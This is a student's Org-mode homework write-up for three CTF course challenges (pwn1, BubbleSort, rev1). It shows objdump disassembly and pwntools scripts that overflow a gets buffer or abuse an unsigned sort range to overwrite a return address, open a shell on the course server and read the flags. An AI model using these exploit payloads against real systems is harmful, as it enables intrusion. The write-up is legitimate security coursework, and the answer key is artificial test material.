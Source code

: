 #+OPTIONS: ':nil *:t -:t ::t <:t H:3 \n:nil ^:t arch:headline author:t
#+OPTIONS: broken-links:nil c:nil creator:nil d:(not "LOGBOOK") date:t e:t
#+OPTIONS: email:nil f:t inline:t num:t p:nil pri:nil prop:nil stat:t tags:t
#+OPTIONS: tasks:t tex:t timestamp:t title:t toc:t todo:t |:t
#+TITLE: hw0
#+AUTHOR: 0410788 Ching-Wen Cheng
#+LANGUAGE: en
#+SELECT_TAGS: export
#+EXCLUDE_TAGS: noexport
#+CREATOR: Emacs 25.2.2 (Org mode 9.0.9)
#+LATEX_CLASS: article
#+LATEX_CLASS_OPTIONS:[a4paper]
#+LATEX_HEADER:\usepackage{CJK}
#+LATEX_HEADER_EXTRA:
#+DESCRIPTION:homework0
#+KEYWORDS:
#+SUBTITLE:
#+LATEX_COMPILER: pdflatex
#+DATE: \today

* Homework0
** pwn1 [50]
   Use objdump to inspect the binary, we can see a vulnerable function "callme" and "gets".
   We know that there was a buffer overflow vulnerabilities, then use gdb to find the payload to overwrite return address of main function.
   use payload to overwrite return address to "callme".
#+BEGIN_SRC sh :results code output :exports both 
objdump -d -M intel ./pwn1 | tail -n70 | head -n21
#+END_SRC

#+RESULTS:
#+BEGIN_SRC sh
0000000000400566 <callme>:
  400566:	55                   	push   rbp
  400567:	48 89 e5             	mov    rbp,rsp
  40056a:	bf 14 06 40 00       	mov    edi,0x400614
  40056f:	e8 bc fe ff ff       	call   400430 <system@plt>
  400574:	90                   	nop
  400575:	5d                   	pop    rbp
  400576:	c3                   	ret    

0000000000400577 <main>:
  400577:	55                   	push   rbp
  400578:	48 89 e5             	mov    rbp,rsp
  40057b:	48 83 ec 20          	sub    rsp,0x20
  40057f:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  400583:	48 89 c7             	mov    rdi,rax
  400586:	e8 c5 fe ff ff       	call   400450 <gets@plt>
  40058b:	90                   	nop
  40058c:	c9                   	leave  
  40058d:	c3                   	ret    
  40058e:	66 90                	xchg   ax,ax

#+END_SRC
*** Code
#+BEGIN_SRC python :results org output :python ~/pyenv/bin/python3 :exports both 
from pwn import * 
payload = b"".join([b"A" for i in range(40)]) + 
          b"\x66\x05\x40\x00\x00\x00\x00\x00\n\n\n\n\n\n" 

with remote("csie.ctf.tw", 10120) as r:
    r.send(payload)
    sleep(1)
    r.sendline("cat /home/`whoami`/flag")
    sleep(1)
    f = r.recv().decode("ascii")
    print(f)
#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10120
[x] Opening connection to csie.ctf.tw on port 10120: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10120: Done
FLAG{BuFFer_0V3Rflow_is_too_easy}
[*] Closed connection to csie.ctf.tw port 10120
#+END_SRC

** BubbleSort [100]
   Use objdump to inspect the binary, we can see a vulnerable function "DarkSoul".
   Then we found that the sort range of BubbleSort is unsign up to 255, So we use BubbleSort to sort the stack include return address.
   And make the address inserted being sorted to the return address.

#+BEGIN_SRC sh :results code output :exports both 
objdump -d -M intel ./BubbleSort | tail -n253 | head -n9
objdump -d -M intel ./BubbleSort | tail -n197 | head -n58 
#+END_SRC

#+RESULTS:
#+BEGIN_SRC sh
08048580 <DarkSoul>:
 8048580:	55                   	push   ebp
 8048581:	89 e5                	mov    ebp,esp
 8048583:	83 ec 18             	sub    esp,0x18
 8048586:	c7 04 24 98 88 04 08 	mov    DWORD PTR [esp],0x8048898
 804858d:	e8 8e fe ff ff       	call   8048420 <system@plt>
 8048592:	c9                   	leave  
 8048593:	c3                   	ret    

08048628 <BubbleSort>:
 8048628:	55                   	push   ebp
 8048629:	89 e5                	mov    ebp,esp
 804862b:	83 ec 14             	sub    esp,0x14
 804862e:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048631:	88 45 ec             	mov    BYTE PTR [ebp-0x14],al
 8048634:	c7 45 fc 00 00 00 00 	mov    DWORD PTR [ebp-0x4],0x0
 804863b:	e9 8c 00 00 00       	jmp    80486cc <BubbleSort+0xa4>
 8048640:	8b 45 fc             	mov    eax,DWORD PTR [ebp-0x4]
 8048643:	83 c0 01             	add    eax,0x1
 8048646:	89 45 f8             	mov    DWORD PTR [ebp-0x8],eax
 8048649:	eb 74                	jmp    80486bf <BubbleSort+0x97>
 804864b:	8b 45 fc             	mov    eax,DWORD PTR [ebp-0x4]
 804864e:	8d 14 85 00 00 00 00 	lea    edx,[eax*4+0x0]
 8048655:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048658:	01 d0                	add    eax,edx
 804865a:	8b 10                	mov    edx,DWORD PTR [eax]
 804865c:	8b 45 f8             	mov    eax,DWORD PTR [ebp-0x8]
 804865f:	8d 0c 85 00 00 00 00 	lea    ecx,[eax*4+0x0]
 8048666:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048669:	01 c8                	add    eax,ecx
 804866b:	8b 00                	mov    eax,DWORD PTR [eax]
 804866d:	39 c2                	cmp    edx,eax
 804866f:	7e 4a                	jle    80486bb <BubbleSort+0x93>
 8048671:	8b 45 f8             	mov    eax,DWORD PTR [ebp-0x8]
 8048674:	8d 14 85 00 00 00 00 	lea    edx,[eax*4+0x0]
 804867b:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804867e:	01 d0                	add    eax,edx
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]
 8048682:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 8048685:	8b 45 f8             	mov    eax,DWORD PTR [ebp-0x8]
 8048688:	8d 14 85 00 00 00 00 	lea    edx,[eax*4+0x0]
 804868f:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 8048692:	01 c2                	add    edx,eax
 8048694:	8b 45 fc             	mov    eax,DWORD PTR [ebp-0x4]
 8048697:	8d 0c 85 00 00 00 00 	lea    ecx,[eax*4+0x0]
 804869e:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80486a1:	01 c8                	add    eax,ecx
 80486a3:	8b 00                	mov    eax,DWORD PTR [eax]
 80486a5:	89 02                	mov    DWORD PTR [edx],eax
 80486a7:	8b 45 fc             	mov    eax,DWORD PTR [ebp-0x4]
 80486aa:	8d 14 85 00 00 00 00 	lea    edx,[eax*4+0x0]
 80486b1:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80486b4:	01 c2                	add    edx,eax
 80486b6:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80486b9:	89 02                	mov    DWORD PTR [edx],eax
 80486bb:	83 45 f8 01          	add    DWORD PTR [ebp-0x8],0x1
 80486bf:	0f b6 45 ec          	movzx  eax,BYTE PTR [ebp-0x14]
 80486c3:	3b 45 f8             	cmp    eax,DWORD PTR [ebp-0x8]
 80486c6:	7f 83                	jg     804864b <BubbleSort+0x23>
 80486c8:	83 45 fc 01          	add    DWORD PTR [ebp-0x4],0x1
 80486cc:	0f b6 45 ec          	movzx  eax,BYTE PTR [ebp-0x14]
 80486d0:	3b 45 fc             	cmp    eax,DWORD PTR [ebp-0x4]
 80486d3:	0f 8f 67 ff ff ff    	jg     8048640 <BubbleSort+0x18>
 80486d9:	90                   	nop
 80486da:	c9                   	leave  
 80486db:	c3                   	ret    

#+END_SRC
*** Code
#+BEGIN_SRC python :results org output :python ~/pyenv/bin/python3 :exports both 
from pwn import * 
payload = " ".join([str(0x08048580) for i in range(126)])

with remote("csie.ctf.tw", 10121) as r:
    r.recvuntil(":")
    r.sendline("126")
    r.recvuntil(":")
    r.sendline(payload)
    r.recvuntil(":")
    r.sendline("-1")
    r.recvline()
    sleep(1)
    r.sendline("cat /home/`whoami`/flag")
    sleep(1)
    f = r.recv().decode("ascii")
    print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10121
[x] Opening connection to csie.ctf.tw on port 10121: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10121: Done
FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}
[*] Closed connection to csie.ctf.tw port 10121
#+END_SRC

** rev1 [50]
   by objdump, we find a "print_flag" function. take out the value and decode into flag 
#+BEGIN_SRC sh :results code output :exports both
objdump -d -M intel rev1 | tail -n92 | head -n31
#+END_SRC

#+RESULTS:
#+BEGIN_SRC sh
08048420 <print_flag>:
 8048420:	83 ec 1c             	sub    esp,0x1c
 8048423:	c7 04 24 40 a0 04 08 	mov    DWORD PTR [esp],0x804a040
 804842a:	c6 05 40 a0 04 08 46 	mov    BYTE PTR ds:0x804a040,0x46
 8048431:	c6 05 41 a0 04 08 4c 	mov    BYTE PTR ds:0x804a041,0x4c
 8048438:	c6 05 42 a0 04 08 41 	mov    BYTE PTR ds:0x804a042,0x41
 804843f:	c6 05 43 a0 04 08 47 	mov    BYTE PTR ds:0x804a043,0x47
 8048446:	c6 05 44 a0 04 08 7b 	mov    BYTE PTR ds:0x804a044,0x7b
 804844d:	c6 05 45 a0 04 08 5f 	mov    BYTE PTR ds:0x804a045,0x5f
 8048454:	c6 05 46 a0 04 08 72 	mov    BYTE PTR ds:0x804a046,0x72
 804845b:	c6 05 47 a0 04 08 65 	mov    BYTE PTR ds:0x804a047,0x65
 8048462:	c6 05 48 a0 04 08 76 	mov    BYTE PTR ds:0x804a048,0x76
 8048469:	c6 05 49 a0 04 08 65 	mov    BYTE PTR ds:0x804a049,0x65
 8048470:	c6 05 4a a0 04 08 72 	mov    BYTE PTR ds:0x804a04a,0x72
 8048477:	c6 05 4b a0 04 08 73 	mov    BYTE PTR ds:0x804a04b,0x73
 804847e:	c6 05 4c a0 04 08 65 	mov    BYTE PTR ds:0x804a04c,0x65
 8048485:	c6 05 4d a0 04 08 5f 	mov    BYTE PTR ds:0x804a04d,0x5f
 804848c:	c6 05 4e a0 04 08 69 	mov    BYTE PTR ds:0x804a04e,0x69
 8048493:	c6 05 4f a0 04 08 73 	mov    BYTE PTR ds:0x804a04f,0x73
 804849a:	c6 05 50 a0 04 08 5f 	mov    BYTE PTR ds:0x804a050,0x5f
 80484a1:	c6 05 51 a0 04 08 66 	mov    BYTE PTR ds:0x804a051,0x66
 80484a8:	c6 05 52 a0 04 08 75 	mov    BYTE PTR ds:0x804a052,0x75
 80484af:	c6 05 53 a0 04 08 6e 	mov    BYTE PTR ds:0x804a053,0x6e
 80484b6:	c6 05 54 a0 04 08 7d 	mov    BYTE PTR ds:0x804a054,0x7d
 80484bd:	c6 05 55 a0 04 08 00 	mov    BYTE PTR ds:0x804a055,0x0
 80484c4:	e8 27 fe ff ff       	call   80482f0 <puts@plt>
 80484c9:	83 c4 1c             	add    esp,0x1c
 80484cc:	c3                   	ret    
 80484cd:	66 90                	xchg   ax,ax
 80484cf:	90                   	nop

#+END_SRC
*** Code
#+BEGIN_SRC python :results org output :python ~/pyenv/bin/python3 :exports both
print(b"\x46\x4c\x41\x47\x7b\x5f\x72\x65\
\x76\x65\x72\x73\x65\x5f\x69\x73\
\x5f\x66\x75\x6e\x7d".decode("ascii"))
#+END_SRC                           

#+RESULTS:
#+BEGIN_SRC org
FLAG{_reverse_is_fun}
#+END_SRC

